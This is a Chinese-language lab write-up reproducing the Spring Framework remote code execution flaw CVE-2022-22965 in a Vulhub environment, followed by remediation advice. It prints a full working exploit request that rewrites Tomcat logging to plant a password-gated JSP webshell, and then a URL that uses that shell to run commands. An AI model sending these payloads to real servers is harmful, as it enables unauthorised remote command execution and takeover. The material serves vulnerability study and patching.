 # Spring Framework远程代码执行漏洞 CVE-2022-22965复现与分析

## 漏洞概述

Spring Framework是一个开源应用框架，初衷是为了降低应用程序开发的复杂度，具有分层体系结构，允许用户选择组件，同时还为 J2EE 应用程序开发提供了一个好用的框架。当Spring部署在JDK9及以上版本，远程攻击者可利用该漏洞写入恶意代码导致远程代码执行。

## 影响版本

- Spring Framework < 5.3.18
- Spring Framework < 5.2.20

## 漏洞复现

### 环境搭建

本次复现采用Vulhub靶场环境，需要在本地搭建Vulhub靶场

```
cd /vulhub/spring/CVE-2022-22965
docker-compose up -d
```

![截图](40d737a7c782a1a2d0d6ededef61b29c.png)

根据VULHUB靶场提示操作，访问靶场服务器IP+端口：

![截图](b3957d4013823d218ac90b5b7ff82f87.png)

### 漏洞测试

发送以下请求以更改 Apache Tomcat 中的日志记录配置并将日志写入 JSP 文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.32.132:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 	AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 		Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

![截图](ea3c6a5c8c67c25b82980b2f137dd6fc.png)

然后，访问刚才的 JSP webshell，并执行任意命令：

```
http://192.168.106.128:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![截图](505c0838f7f90a592faf2e36e715c0c9.png)

## 漏洞检测工具

可以使用以下工具来检测漏洞是否存在:

```
https://github.com/hypnoticp/Python_script
```

![截图](34dc8d0b5d7013e314763dd44b42a605.png)

## 修复建议

- 在使用Spring框架的服务器中，命令行下执行“java –version”，查看当前JDK版本，如果JDK版本在8及以下，则不受此漏洞影响

- 在应用中全局搜索@InitBinder注解，看看方法体内是否调用dataBinder.setDisallowedFields方法，如果发现此代码片段的引入,则在原来的黑名单中，添加{“class.","Class.”,“.class.”,“.Class.”}。
- 在应用系统的项目包下新建以下全局类，并保证这个类被Spring 加载到(推荐在Controller所在的包中添加)。完成类添加后，需对项目进行重新编译打包和功能验证测试，并重新发布项目
- 当前 Spring Framework 官方已发布最新版本，建议受影响的用户及时更新升级到最新版本。链接如下：https://github.com/spring-projects/spring-framework/tags

## 漏洞原理分析

https://paper.seebug.org/1877/#_1